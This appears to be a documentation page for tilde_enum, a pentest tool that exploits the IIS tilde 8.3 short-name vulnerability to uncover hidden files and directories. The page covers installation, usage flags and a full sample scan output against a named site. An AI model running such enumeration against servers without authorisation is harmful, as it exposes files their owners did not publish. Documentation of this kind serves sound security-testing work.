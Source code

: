 ```yaml
---
title : "tilde_enum"
# pre : ' '
description : "Exploits and expands the file names found from the (IIS) tilde enumeration vuln."
date : 2022-02-07T09:55:27+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Other', 'IIS']
---
```


## tilde_enum

Takes a URL and then exploits the IIS tilde 8.3 enumeration vuln (<https://soroush.secproject.com/blog/tag/iis-tilde-vulnerability/>, <http://www.acunetix.com/vulnerabilities/microsoft-iis-tilde-direc/>, <http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf>) and tries to get you full file and directory names.

This is an attempt to take the cool POC scanner at <https://github.com/irsdl/iis-shortname-scanner/tree/master/> and get you the rest of the file/directory names so you can retrieve them.

Feed this script a URL and also a word list of potential file/dir names. The script will look up the roots in your word list and then try them with appropriate extensions.

For word lists, the [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the <https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt> (or large or medium) for this work.

This is not a directory enumerator (i.e., tries all words in a list against a web server). It will only find directories that have names longer than 8 characters (since only then will they have 8.3 names and be recognized by the vulnerability). You should still try to enumerate directories using a word list and [DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project) or Burp Intruder or something.

Just as a note: on Windows computers you can view 8.3 names in the command prompt window by using the `dir /x` command. One of the columns will be the 8.3 name (if there is one).

## Installation

```plain
git clone https://github.com/WebBreacher/tilde_enum
```

Find wordlists to use at [this GitHub repo](https://github.com/tennc/fuzzdb/tree/master/Discovery/PredictableRes). Or download some handy ones below.

{{%attachments title="Wordlists" fa_icon_class="far fa-file" pattern=".*(txt)"%}}

## Usage

```plain
tilde_enum.py [-h] [-c COOKIES] [-d DIRWORDLIST] [-f] [-p PROXY]
                     [-s SNOOZE] [-u URL] [-v] [-w WORDLIST]
                     [--no-check-certificate]
```

## Flags

```plain
Exploits and expands the file names found from the tilde enumeration vuln

optional arguments:
  -h, --help            show this help message and exit
  -c COOKIES            cookies to be used in the request
  -d DIRWORDLIST        an optional wordlist for directory name content
  -f                    force testing of the server even if the headers do not
                        report it as an IIS system
  -p PROXY              Use a proxy host:port
  -s SNOOZE             time in seconds to sleep/wait between requests
  -u URL                URL to scan
  -v                    verbose output
  -w WORDLIST           the word list to be used for guessing files
  --no-check-certificate
                        don't verify the SSL certificate
```

## Examples

```plain
$  python2 tilde_enum.py -u http://offsec.nl -w raft-small-directories-lowercase.txt
[-]  Testing with dummy file request http://offsec.nl/mhxWjUz25u.htm
[-] URLNotThere -> HTTP Code: 404, Response Length: 1635
[-]  Testing with user-submitted http://offsec.nl
[-] URLUser -> HTTP Code: 200, Response Length: 1433
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the tilde enumeration vulnerability (IIS/5|6.x)..
[+]  Found a new directory: aspnet
[+]  Found a new directory: copyof
[+]  Found a new directory: docume
[+]  Found a new directory: javasc
[+]  Found file:  parame . xml
[+]  Found file:  765432 . htm
[+]  Found file:  _vti_i . htm
[+]  Found a new directory: _vti_s
[-]  Finished doing the 8.3 enumeration for /.
[-]  Now starting the word guessing using word list calls
[*]  Found one! (Size 1307) http://offsec.nl/parameter.xml
[*]  Found one! (Size 1754) http://offsec.nl/_vti_inf.html
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[?]  URL: (Size 218) http://offsec.nl/aspnet_client/ with Response: HTTP Error 403: Forbidden
[*]  Found one! (Size 1433) http://offsec.nl/documentation/
[*]  Found one! (Size 1433) http://offsec.nl/javascript/
[-]  Now starting recursive 8.3 enumeration into the directories we found.
[-]  Diving into the http://offsec.nl/documentation/ dir.
[+]  Found file:  advert . htm
[+]  Found file:  defaul . asp
[-]  Finished doing the 8.3 enumeration for /documentation/.
[*]  Found one! (Size 227) http://offsec.nl/documentation/advertising.html
[*]  Found one! (Size 1433) http://offsec.nl/documentation/default.aspx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[-]  Diving into the http://offsec.nl/javascript/ dir.
[+]  Found file:  321 . xls
[-]  Finished doing the 8.3 enumeration for /javascript/.
[-]  File name (321) too short to look up in word list. We will use it to bruteforce.
[*]  Found one! (Size 227) http://offsec.nl/javascript/321.xlsx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.

---------- FINAL OUTPUT ------------------------------
[*]  We found files for you to look at:
[*]      http://offsec.nl/_vti_inf.html  - Size 1754
[*]      http://offsec.nl/documentation/advertising.html  - Size 227
[*]      http://offsec.nl/documentation/default.aspx  - Size 1433
[*]      http://offsec.nl/javascript/321.xlsx  - Size 227
[*]      http://offsec.nl/parameter.xml  - Size 1307

[*]  Here are all the 8.3 names we found.
[*]  If any of these are 6 chars and look like they should work,
        try the file name with the first or second instead of all of them.
[*]      http://offsec.nl/documentation/advert~1.htm
[*]      http://offsec.nl/documentation/defaul~1.asp
[*]      http://offsec.nl/765432~1.htm
[*]      http://offsec.nl/_vti_i~1.htm
[*]      http://offsec.nl/parame~1.xml
[*]      http://offsec.nl/javascript/321~1.xls

[*]  We found directories for you to look at:
[*]      http://offsec.nl/documentation/  - Size 1433
[*]      http://offsec.nl/javascript/  - Size 1433

[*]  Here are all the directory names we found. You may wish to try to guess them yourself too.
[?]      http://offsec.nl/_vti_s~1/
[?]      http://offsec.nl/aspnet~1/
[?]      http://offsec.nl/copyof~1/
[?]      http://offsec.nl/docume~1/
[?]      http://offsec.nl/javasc~1/

[*]  We found directory URLs you should check out. They were not HTTP response code 200s.
[?]      HTTP Resp 403 - http://offsec.nl/aspnet_client/  - Size 218
```

## URL List

- [Github.com - tilde_enum](https://github.com/WebBreacher/tilde_enum)
- [Github.com - Wordlists to use](https://github.com/tennc/fuzzdb/tree/master/Discovery/PredictableRes)
